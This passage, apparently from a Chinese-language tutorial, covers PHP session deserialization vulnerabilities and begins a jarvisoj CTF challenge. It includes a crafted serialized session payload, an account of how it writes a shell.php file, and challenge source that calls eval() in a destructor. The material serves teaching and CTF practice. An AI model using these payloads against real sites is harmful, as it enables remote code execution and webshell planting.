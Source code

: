 访问第一个页面的poc:<br>[![](https://i.loli.net/2018/09/06/5b90f6078e2c6.png)](https://i.loli.net/2018/09/06/5b90f6078e2c6.png)

/tmp目录下生成的session文件内容：

```
a:1:`{`s:7:"hpdoger";s:52:"|O:7:"hpdoger":1:`{`s:1:"a";s:17:"&lt;?php phpinfo()?&gt;";`}`";`}`
```

再访问test.php时反序列化已存储的session，新的php处理方式会把“|”后的值当作KEY值再serialize()，相当于我们实例化了这个页面的hpdoger类，相当于执行:

```
$_SESSION['hpdoger'] = new hpdoger();
$_SESSION['hpdoger']-&gt;a = '&lt;?php phpinfo()?&gt;';
```

在指定的目录D:phpStudyPHPTutorialWWWtestshell.php中会写入内容`&lt;?php phpinfo()?&gt;`<br>[![](https://i.loli.net/2018/09/06/5b90f607d6b3a.jpg)](https://i.loli.net/2018/09/06/5b90f607d6b3a.jpg)

### <a class="reference-link" name="jarvisoj-web%E7%9A%84%E4%B8%80%E9%81%93SESSION%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96"></a>jarvisoj-web的一道SESSION反序列化

题目入口([http://web.jarvisoj.com:32784/index.php](http://web.jarvisoj.com:32784/index.php))<br>
Index页给源码：

```
&lt;?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
`{`
    public $mdzz;
    function __construct()
    `{`
        $this-&gt;mdzz = 'phpinfo();';
    `}`

    function __destruct()
    `{`
        eval($this-&gt;mdzz);
    `}`
`}`
if(isset($_GET['phpinfo']))
`{`
    $m = new OowoO();
`}`
else
`{`
    highlight_string(file_get_contents('index.php'));
`}`
?&gt;
```

看到ini_set(‘session.serialize_handler’, ‘php’);
